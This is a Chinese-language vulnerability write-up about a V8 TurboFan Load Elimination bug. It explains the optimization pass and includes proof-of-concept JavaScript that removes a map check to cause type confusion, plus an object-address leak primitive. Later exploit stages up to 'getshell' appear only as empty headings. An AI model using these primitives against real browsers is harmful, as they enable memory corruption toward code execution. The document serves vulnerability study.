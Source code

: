 # 1.概述

Load Elimination是TurboFan优化的第7步，在Loop Peeled（将第一次循环剥离开）之后，在Escape Analysis（JIT内部创建的对象的作用范围的分析）之前。这一步实际上是分析了程序到达图中的每一个节点时，该JIT函数的作用域中所有的Object及其Elements和Fields可能是什么。如果不确定是什么，则不记录，认为是什么都有可能；如果可以确定，则把它记录到一个State的状态中去，并让State沿着数据流图进行传递。分析这个的意义在于我们拿到当前的State，可以发现部分Load或者Check之类的节点是冗余的，由此我们可以简化整个IR图实现性能优化。


# 2.root cause: 别名分析不完全

poc:

```js

function opt(a, b) {
    b[0] = 0;    // state中包含b的map check以及b[0]的store state

    a.length;    // state中包含a的map check以及a.length的Field

    // TransitionElementsKind 
    for (let i = 0; i < 1; i++)
        a[0] = 0;    // state中包含a[0]的load state，并且将a的map修改为object Elements的(因为优化之前传入的arr1是object elements的)

    // CheckMap removed, type confusion
    b[0] = 9.431092e-317;  // 0x1234567      // 由于此时state中包含了b[0]的store state，所以checkmap被移除，直接完成赋值
                                             // 但是如果我们传入的a和b是同一个数组，由于a的elements类型被转换成了object elements
                                             // 此时9.431092e-317(二进制为0x1234567)会被当成是一个指针，进而在之后的访问过程中crash
}

let arr1 = new Array(1);
arr1[0] = 'a';
opt(arr1, [0]);

let arr2 = [0.1];
opt(arr2, arr2);    

%OptimizeFunctionOnNextCall(opt);

opt(arr2, arr2);    // arr2是double的
arr2[0].x  // access 0x1234566

```


# 3.exploit

## 3.1 用户空间对象引用获取：

上述poc已经完美的构造出了用户空间对象引用获取的利用过程

## 3.2 用户空间对象地址泄露：

```js
    function opt(a, b, leak) {
        b[0];    // state中包含b的map check以及b[0]的load state(double load)

        a.length;    
        // TransitionElementsKind 
        for (let i = 0; i < 1; i++)
            a[0] = leak;    // state中包含a[0]的load state，并且将a的map修改为object Elements的(因为优化之前传入的arr1是object elements的)

        // CheckMap removed, type confusion
        return b[0];      // 由于此时state中包含了b[0]的load state(double load)，所以checkmap被移除，直接完成load
                          // 但是如果我们传入的a和b是同一个数组，由于a的elements类型被转换成了object elements
                          // 此时b[0]实际上存储的是leak object,进而直接讲leak object的地址当成是double返回
    }
```

## 3.3 fake arraybuffer

## 3.4 通过用户空间对象引用获取模块获取fake arraybuffer引用

## 3.5 获取任意地址读写

## 3.6 getshell